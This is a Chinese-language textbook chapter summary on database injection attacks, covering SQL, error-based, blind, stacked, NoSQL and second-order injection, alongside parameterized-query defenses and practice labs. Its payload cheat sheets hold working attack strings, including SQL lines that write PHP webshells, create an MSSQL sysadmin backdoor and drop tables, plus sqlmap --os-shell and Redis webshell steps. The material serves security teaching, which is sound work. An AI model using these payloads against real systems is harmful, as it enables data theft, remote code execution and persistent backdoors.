



## 核心技巧总结

本章系统讲解了数据库注入攻击的完整技术体系——从最基础的 SQL 注入判断到高阶的二次注入与 NoSQL 注入，再到防御体系建设与安全审计。本节作为全章的收束，将零散的技术点串联成一张完整的知识网络，帮助读者建立全局视角，并提供从"知道"到"能用"的实践路线图。

---

### 全章知识图谱

```mermaid
graph TD
    ROOT["数据库注入技术体系"]

    ROOT --> BASIC["基础层：SQL注入基础"]
    ROOT --> ERROR["进阶层：报错注入"]
    ROOT --> BLIND["进阶层：盲注技术"]
    ROOT --> STACK["高阶层：堆叠注入"]
    ROOT --> NOSQL["扩展层：NoSQL注入"]
    ROOT --> SECOND["高阶层：二次注入"]
    ROOT --> DEFENSE["防御层：注入防御"]
    ROOT --> AUDIT["工程层：安全审计工具"]

    BASIC --> B1["判断注入点"]
    BASIC --> B2["UNION联合查询"]
    BASIC --> B3["核心Payload构造"]

    ERROR --> E1["extractvalue报错"]
    ERROR --> E2["updatexml报错"]
    ERROR --> E3["floor报错"]

    BLIND --> BL1["布尔盲注"]
    BLIND --> BL2["时间盲注"]
    BLIND --> BL3["sqlmap自动化"]

    STACK --> S1["MySQL堆叠"]
    STACK --> S2["MSSQL堆叠"]

    NOSQL --> N1["MongoDB注入"]
    NOSQL --> N2["Redis未授权"]

    SECOND --> SEC1["存储阶段"]
    SECOND --> SEC2["触发阶段"]

    DEFENSE --> D1["参数化查询"]
    DEFENSE --> D2["输入验证"]
    DEFENSE --> D3["WAF部署"]

    AUDIT --> A1["数据库扫描工具"]
    AUDIT --> A2["数据库防火墙"]
    AUDIT --> A3["合规审计"]

    style ROOT fill:#1a1a2e,stroke:#e94560,color:#fff
    style BASIC fill:#16213e,stroke:#0f3460,color:#fff
    style ERROR fill:#16213e,stroke:#0f3460,color:#fff
    style BLIND fill:#16213e,stroke:#0f3460,color:#fff
    style STACK fill:#16213e,stroke:#0f3460,color:#fff
    style NOSQL fill:#16213e,stroke:#0f3460,color:#fff
    style SECOND fill:#16213e,stroke:#0f3460,color:#fff
    style DEFENSE fill:#0a3d62,stroke:#1e90ff,color:#fff
    style AUDIT fill:#0a3d62,stroke:#1e90ff,color:#fff
```



---

### 技术全景回顾

#### SQL 注入基础（第1节）

SQL 注入的本质是**用户输入未被正确隔离，直接参与了 SQL 语句的编译与执行**。攻击者通过在输入中嵌入 SQL 片段，改变原始查询的语义，从而实现非授权的数据读取、修改甚至系统控制。

核心知识节点：

| 知识点 | 关键内容 | 实战价值 |
|--------|----------|----------|
| 注入点判断 | 单引号测试、数字型/字符型判断、逻辑运算验证 | 所有注入的第一步，判断错误则后续全错 |
| 联合查询注入 | ORDER BY 定位列数 → UNION SELECT 爆字段 → 逐步提取数据 | 最经典、最高效率的回显注入方式 |
| 信息收集 | database()、version()、user()、@@datadir | 了解目标环境是制定后续策略的前提 |
| 核心 Payload | `' OR 1=1 --`、`' UNION SELECT ... --`、`1' AND ... --` | 实战中直接可用的注入模板 |

**关键理解**：注入点判断不是"试一下单引号"这么简单。真正的判断流程是：先确认参数类型（数字型 vs 字符型），再确认闭合方式（单引号、双引号、括号组合），最后确认注释符有效性（`--`、`#`、`/* */` 在不同数据库和上下文中的表现不同）。

---

#### 报错注入（第2节）

当页面会将数据库错误信息回显到前端时，报错注入是最高效的利用方式——**一条语句就能直接拿到数据，不需要逐字符猜测**。

三种核心报错函数对比：

| 报错函数 | 适用版本 | 报错长度限制 | 构造难度 | 推荐优先级 |
|----------|----------|-------------|----------|-----------|
| `extractvalue()` | MySQL 5.1+ | 32字符 | 低 | ★★★ 首选 |
| `updatexml()` | MySQL 5.1+ | 32字符 | 低 | ★★★ 首选 |
| `floor()` | MySQL 5.x | 无限制 | 中 | ★★ 备选 |

**实战要点**：`extractvalue` 和 `updatexml` 都有 32 字符的输出截断问题。当目标数据超过 32 字符时，使用 `substr()` 分段提取：

```sql
-- 分段提取长数据
SELECT extractvalue(1, concat(0x7e, substr((SELECT password FROM users LIMIT 1), 1, 31)));
SELECT extractvalue(1, concat(0x7e, substr((SELECT password FROM users LIMIT 1), 32, 31)));
```

`floor()` 报错无长度限制，但构造更复杂，涉及 `count()` 与 `rand()` 的组合，理解其数学原理（`group by` 触发主键重复）对于调试失败的 Payload 至关重要。

---

#### 盲注技术（第3节）

盲注是**页面不回显查询结果、也不回显数据库错误信息**时的必经之路。它通过观察页面行为的差异（布尔状态、响应时间）来逐位推断数据。

**布尔盲注 vs 时间盲注决策树**：



**效率关键**：手工盲注极其耗时（一个 32 字符的哈希值需要约 256 次请求才能提取完毕）。实际渗透中，`sqlmap` 是盲注场景的标配工具：

```bash
# 基本布尔盲注
sqlmap -u "http://target/page?id=1" --technique=B --batch

# 时间盲注 + 指定延迟
sqlmap -u "http://target/page?id=1" --technique=T --time-sec=5

# 从请求文件加载（处理 POST/复杂头部）
sqlmap -r request.txt --technique=BT --dbs
```

**常见坑点**：时间盲注在高延迟网络中容易误判。`sleep(5)` 在慢速网络上可能看起来像 7-8 秒的响应，建议使用 `BENCHMARK()` 函数替代 `sleep()`，并设置合理的时间阈值。

---

#### 堆叠注入（第4节）

堆叠注入允许**一次性执行多条 SQL 语句**，是注入能力的质变——从"只能读"变成"能读能写能删能改权限"。

**数据库支持对比**：

| 数据库 | 堆叠支持 | 执行方式 | 限制条件 |
|--------|----------|----------|----------|
| MySQL + PHP (mysqli) | ✅ 支持 | `mysqli_multi_query()` | 默认的 `mysql_query()` 不支持 |
| MySQL + PHP (PDO) | ✅ 支持 | `PDO::exec()` | 需要 `PDO::ATTR_EMULATE_PREPARES` |
| MSSQL | ✅ 支持 | 默认即支持堆叠 | `EXEC()` 扩展执行 |
| PostgreSQL | ✅ 支持 | 默认即支持堆叠 | `;` 分隔即可 |
| Oracle | ❌ 不支持 | 仅通过 PL/SQL 间接实现 | 需要特定权限 |

**高价值利用场景**：

```sql
-- 堆叠注入写 Webshell (MySQL)
'; SELECT '<?php eval($_POST["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --

-- 堆叠注入创建后门用户 (MSSQL)
'; EXEC sp_addlogin 'backdoor', 'your_password'; EXEC sp_addsrvrolemember 'backdoor', 'sysadmin' --

-- 堆叠注入修改数据
'; UPDATE users SET role='admin' WHERE username='attacker' --
```

**判断是否存在堆叠注入**：发送 `; SELECT SLEEP(5) --`，观察响应是否延迟。如果延迟存在，说明多语句执行可用。

---

#### NoSQL 注入（第5节）

NoSQL 注入打破了"只有 SQL 才会被注入"的误解。**任何将用户输入直接拼接到查询结构中的数据库操作都可能被注入**，无论底层是关系型数据库还是文档型数据库。

**MongoDB 注入核心手法**：

```javascript
// 正常登录查询
db.users.find({ username: "admin", password: "123456" })

// 注入：绕过认证
db.users.find({ username: "admin", password: { $ne: "" } })  // password 不等于空 → 永真

// 注入：操作符注入
db.users.find({ username: { $gt: "" }, password: { $gt: "" } })  // 大于空字符串 → 匹配所有

// 注入：$where 注入（JavaScript 执行）
db.users.find({ $where: "this.username == 'admin' && this.password == '123456'" })
// 改为：
db.users.find({ $where: "this.username == 'admin' || '1'=='1'" })
```

**Redis 未授权利用**：

Redis 默认无认证，暴露在公网上等于裸奔。利用方式包括：

1. **读取敏感数据**：`KEYS *`、`GET config:password`
2. **写入 Webshell**：`CONFIG SET dir /var/www/html` + `CONFIG SET dbfilename shell.php` + `SET payload '<?php ...?>'` + `SAVE`
3. **SSH 公钥注入**：将攻击者的公钥写入 `~/.ssh/authorized_keys`
4. **主从复制 RCE**：通过 `MODULE LOAD` 加载恶意 .so 文件执行系统命令

---

#### 二次注入（第6节）

二次注入是最容易被忽视也最难防御的注入类型。它的核心机制是**数据先被安全地存储，后在另一个上下文中被不安全地使用**。

**攻击生命周期**：



**为什么参数化查询防不住二次注入**：参数化查询只在数据入库时起保护作用。当数据从数据库读出后，如果程序直接用字符串拼接构造新的 SQL 语句，参数化查询的保护就不存在了。

**防御核心原则**：**所有从数据库读出的数据，在用于构造新查询前，都必须重新经过参数化处理或转义**。不要信任数据库中的任何数据——即使它已经被"验证过"。

---

#### SQL 注入防御（第7节）

防御不是单点措施，而是**纵深防御体系**。每一层防线都在弥补其他层的不足。

**防御层级架构**：

| 层级 | 措施 | 防御能力 | 限制 |
|------|------|----------|------|
| 代码层 | 参数化查询/预编译语句 | 从根本上杜绝注入 | 需要全面覆盖，一处遗漏即失效 |
| 代码层 | ORM 框架 | 自动参数化，降低人为失误 | 复杂查询仍需手写 SQL |
| 代码层 | 输入验证（白名单） | 拒绝非法输入 | 无法覆盖所有合法输入的边界情况 |
| 运行时层 | WAF（Web 应用防火墙） | 拦截已知攻击模式 | 绕过技术持续演进 |
| 运行时层 | 最小权限原则 | 即使被注入，损害可控 | 需要精细的权限规划 |
| 监控层 | SQL 审计日志 | 事后溯源，发现异常查询 | 被动防御，无法阻止攻击 |

**参数化查询的正确写法**（覆盖主流语言）：

```python
# Python - mysql-connector
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))

# Python - SQLAlchemy
session.query(User).filter(User.id == user_id).first()
```

```java
// Java - PreparedStatement
PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
ps.setInt(1, userId);
ResultSet rs = ps.executeQuery();
```

```php
// PHP - PDO
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
$stmt->execute(['id' => $userId]);
```

```go
// Go - database/sql
row := db.QueryRow("SELECT * FROM users WHERE id = $1", userID)
```

```javascript
// Node.js - mysql2
const [rows] = await pool.execute('SELECT * FROM users WHERE id = ?', [userId]);
```

**常见的错误防御方式**（看似有用实则可以绕过）：

| 错误做法 | 为什么无效 |
|----------|-----------|
| 只过滤 `OR`、`AND` 关键字 | 大小写变形（`Or`、`AnD`）、编码绕过（`%4f%52`）、内联注释（`/*!OR*/`） |
| 只转义单引号 | 数字型注入不需要引号；宽字节注入可以吃掉反斜杠 |
| 限制输入长度 | 可以分段注入，或者利用短 Payload |
| 黑名单过滤 `SELECT`、`UNION` | 双写绕过（`SELSELECTECT`）、大小写变形、注释分割 |

---

### 实战渗透测试方法论

将本章技术串联成一个完整的渗透测试流程：



**每个阶段的工具选择**：

| 阶段 | 推荐工具 | 适用场景 |
|------|----------|----------|
| 注入点探测 | Burp Suite 手工测试、sqlmap `--crawl` | 全面发现注入点 |
| 类型判断 | 手工 + sqlmap `--technique=BEUSTQ` | 确定最佳注入方式 |
| 自动化利用 | sqlmap `--os-shell`、`--file-read`、`--file-write` | 高效数据提取和权限提升 |
| 手工精细控制 | Burp Repeater、curl | 处理 sqlmap 无法识别的复杂场景 |
| 事后分析 | SQLMap 日志、Burp 历史 | 还原攻击链，编写报告 |

---

### 学习路线与能力评估

#### 能力等级对照表

| 等级 | 能力描述 | 对应章节 | 自测标准 |
|------|----------|----------|----------|
| **L1 入门** | 理解注入原理，能判断注入点，会用 sqlmap | 第1、3节 | 能在 SQLi-Labs 前 20 关用 sqlmap 拿到数据 |
| **L2 基础** | 掌握 UNION 注入和报错注入，能手工构造 Payload | 第1、2节 | 能手工完成 Less-1 到 Less-10，不用 sqlmap |
| **L3 进阶** | 熟练使用盲注，理解堆叠注入原理和限制 | 第3、4节 | 能在无回显场景下完成数据提取，理解各数据库堆叠差异 |
| **L4 高级** | 掌握二次注入、NoSQL 注入，能绕过基础 WAF | 第5、6节 | 能在 MongoDB 应用中实现认证绕过，能识别和利用二次注入 |
| **L5 专家** | 能做完整的数据库安全审计，设计防御方案，编写自定义 Payload | 全章 + 第7节 | 能独立完成渗透测试报告，提出可落地的修复方案 |

#### 实战练习环境

| 环境 | 说明 | 难度 |
|------|------|------|
| [SQLi-Labs](https://github.com/Audi-1/sqli-labs) | 最经典的 SQL 注入练习平台，75 关 | L1-L3 |
| [DVWA](https://github.com/digininja/DVWA) | 包含 SQL 注入模块的漏洞 Web 应用 | L1-L2 |
| [WebGoat](https://github.com/WebGoat/WebGoat) | OWASP 官方练习平台 | L2-L4 |
| [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection) | Burp Suite 官方实验室，交互式教程 | L1-L5 |
| [Hack The Box](https://www.hackthebox.com/) | 真实靶机环境 | L3-L5 |
| [MongoDB 注入练习](https://github.com/Charlie-belmont/nosqlilabs) | NoSQL 注入专项练习 | L3-L4 |

---

### 常见误区与纠正

| 误区 | 正确认知 |
|------|----------|
| "参数化查询万能，用了就不会被注入" | 参数化查询只防直接注入，二次注入、逻辑层漏洞仍可能存在 |
| "NoSQL 数据库不会被注入" | MongoDB 操作符注入、Redis 未授权访问都是真实威胁 |
| "sqlmap 能解决所有注入问题" | sqlmap 对复杂认证流程、CSRF 保护、JSON 嵌套参数的处理经常需要手动配置或改写请求 |
| "报错注入和盲注二选一即可" | 实际场景中经常需要组合使用，比如先用报错注入获取表结构，再用盲注提取特定数据 |
| "WAF 可以替代代码层防御" | WAF 是最后一道防线，不是第一道。编码绕过、分块传输、HPP 都能绕过大部分 WAF |
| "数据库版本老旧没关系" | MySQL 5.x 的报错注入 Payload 在 8.x 中部分失效，版本差异直接影响攻击策略 |
| "只有 GET 参数才需要防注入" | POST body、Cookie、HTTP Header（User-Agent、Referer、X-Forwarded-For）都是注入入口 |
| "注释符只有 `--`" | `-- `（注意尾部空格）、`#`、`/* */`、`;%00` 在不同场景中各有适用性 |

---

### 速查手册

#### 注入类型选择速查

```text
页面回显数据？
  ├── 是 → UNION 联合查询（最高效）
  └── 否 → 页面返回错误信息？
              ├── 是 → 报错注入（extractvalue/updatexml/floor）
              └── 否 → 发送 AND 1=1 / AND 1=2
                          ├── 页面有差异 → 布尔盲注
                          └── 页面无差异 → 时间盲注
                                            └── 不行 → 堆叠注入
```

#### 核心 Payload 速查

```sql
-- 注入点判断
' AND 1=1 --          (字符型，真条件)
' AND 1=2 --          (字符型，假条件)
1 AND 1=1             (数字型，真条件)
1 AND 1=2             (数字型，假条件)

-- 信息收集
' UNION SELECT database(),version() --       (当前库名+版本)
' UNION SELECT schema_name FROM information_schema.schemata --  (所有库名)
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='target_db' --  (目标库所有表)
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --  (users表所有列)

-- 报错注入
' AND extractvalue(1,concat(0x7e,(SELECT database()),0x7e)) --
' AND updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) --
' AND (SELECT 1 FROM (SELECT count(*),concat((SELECT database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) --

-- 布尔盲注
' AND ascii(substr((SELECT database()),1,1))>100 --
' AND ascii(substr((SELECT database()),1,1))=115 --   (逐字符确认)

-- 时间盲注
' AND IF(ascii(substr((SELECT database()),1,1))>100,sleep(3),0) --

-- 堆叠注入
'; DROP TABLE temp; --
'; SELECT '<?php system($_GET["c"]); ?>' INTO OUTFILE '/var/www/shell.php' --
```

---

### 从攻击者到防御者的思维转变

掌握了攻击技术之后，更重要的是**用攻击者的视角去审视防御体系**。一个优秀的安全工程师不是只会用扫描器的人，而是能站在攻击者的角度思考"如果我要突破这个系统，我会怎么做"的人。

**防御者的核心思维模型**：

1. **永远不信任用户输入**：无论输入来自前端表单、API 参数、HTTP 头还是数据库本身，都必须经过验证和参数化处理
2. **最小权限原则**：数据库用户只授予必要的权限，Web 应用不需要 `DROP`、`CREATE`、`FILE` 权限
3. **纵深防御**：代码层 + 运行时层 + 监控层，每层都有独立的防御能力
4. **安全左移**：在开发阶段就引入安全编码规范和自动化 SAST 扫描，而不是上线后再补
5. **持续审计**：定期进行渗透测试和代码审计，新功能上线前必须经过安全评审

本章所学的每一种攻击技术，都应该映射到一个明确的防御措施。**攻击与防御不是对立的，而是同一枚硬币的两面**。理解攻击，才能构建真正有效的防御。

---

> **下一步学习建议**：完成本章学习后，建议在 SQLi-Labs 或 PortSwigger Academy 上完成至少 30 道练习题，将理论转化为肌肉记忆。然后进入第12章的学习，了解更广泛的 Web 漏洞类型与利用技术。
